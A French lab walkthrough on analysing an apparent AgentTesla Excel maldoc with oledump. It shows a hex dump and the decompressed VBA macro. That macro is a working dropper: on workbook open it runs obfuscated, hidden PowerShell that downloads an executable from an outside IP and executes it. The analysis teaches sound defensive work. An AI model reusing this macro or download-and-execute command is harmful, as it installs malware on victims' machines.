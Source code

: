 ```bash
00000160: 03 63 2A 12 75 00 0A 5E  69 00 0D 6E 2A 70 40 6F  .c*.u..^i..n*p@o
00000170: 6C 5E 69 63 79 C0 07 62  00 2A 79 70 5E 5E 61 73  l^icy..b.*yp^^as
00000180: 73 20 2A 3B 2A 20 24 01  4D 46 69 0A 6C 41 12 3D  s *;* $.MFi.lA.=
00000190: C0 00 5B 2A 49 2A 80 4F  2A 2E 2A 50 2A 61 C0 0E  ..[*I*.O*.*P*a..
000001A0: 00 68 2A 5D 2A 3A 3A 47  65 1A 74 40 09 2A 83 09  .h*]*::Ge.t@.*..
000001B0: 41 79 28 29 20 40 7C 20  52 65 6E 5E C0 02 2D 00  Ay() @| Ren^..-.
000001C0: 49 74 5E 65 6D 20 2D 4E  04 65 77 42 9A 7B 20 24  It^em -N.ewB.{ $
000001D0: 5F 20 18 2D 72 65 40 62  40 82 27 74 6D 00 70 24  _ .-re@b@.'tm.p$
000001E0: 27 2C 20 27 65 78 80 65  27 20 7D 20 96 50 C1 1D  ', 'ex.e' } .P..
000001F0: 00 54 68 72 75 3B 20 49  6E 00 5E 76 6F 2A 6B 65  .Thru; In.^vo*ke
00000200: 2D 57 00 65 5E 62 52 65  2A 71 75 00 65 73 74 20  -W.e^bRe*qu.est 
00000210: 2D 55 5E 72 00 69 20 22  22 68 74 74 70 00 3A 2F  -U^r.i ""http.:/
00000220: 2F 31 39 33 2E 32 02 30  C3 00 36 37 2F 72 74 2F  /193.2.0..67/rt/
00000230: 00 44 6F 63 2D 33 37 33  37 80 31 32 32 70 64 66  .Doc-3737.122pdf
00000240: 2E 00 16 D0 22 22 20 2D  00 63 2A C1 27 07 34 02  ...."" -.c*.'.4.
00000250: 3B 80 65 2A 61 72 74 2D  50 80 72 6F 63 65 2A 73  ;.e*art-P.roce*s
00000260: 73 88 06 2B 00 B0 46 5E  52 83 2A 28 03 04 2C 20  s..+..F^R.*(.., 
00000270: 68 22 2A 22 00 01 22 C0  7D 97 08 5E 49 86 08 65  h"*"..".}..^I..e
00000280: 74 48 7C 3D 20 C2 B8 65  01 43 77 28 22 57 53 63  tH|= ..e.Cw("WSc
00000290: 72 69 00 70 74 2E 53 68  65 6C 6C EB 8E 0B C2 82  ri.pt.Shell.....
000002A0: 3D C7 03 2E 01 04 C4 18  C0 0A 08 45 6E 64 81 A3  =..........End..
```

Les résultats ci-dessus sont au format **hexadécimal**. Un œil averti y reconnaîtra peut-être certains termes. Cependant, cela reste complexe, n'est-ce pas ? Rendons-les donc plus lisibles et plus faciles à comprendre.

Nous allons ajouter le paramètre `--vbadecompress` à la commande précédente. Grâce à ce paramètre, oledump décompressera automatiquement les macros VBA compressées détectées dans un format plus lisible, facilitant ainsi l'analyse de leur contenu.

```bash
ubuntu@10.10.214.227:~/Desktop/tasks/agenttesla$ oledump.py agenttesla.xlsm -s 4 --vbadecompress
```

Voici le résultat de la commande:

```bash
Attribute VB_Name = "ThisWorkbook"
Attribute VB_Base = "0{00020819-0000-0000-C000-000000000046}"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = False
Attribute VB_TemplateDerived = False
Attribute VB_Customizable = True
Private Sub Workbook_Open()
Dim Sqtnew As String, sOutput As String
Dim Mggcbnuad As Object, MggcbnuadExec As Object
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
Set Mggcbnuad = CreateObject("WScript.Shell")
Set MggcbnuadExec = Mggcbnuad.Exec(Sqtnew)
```
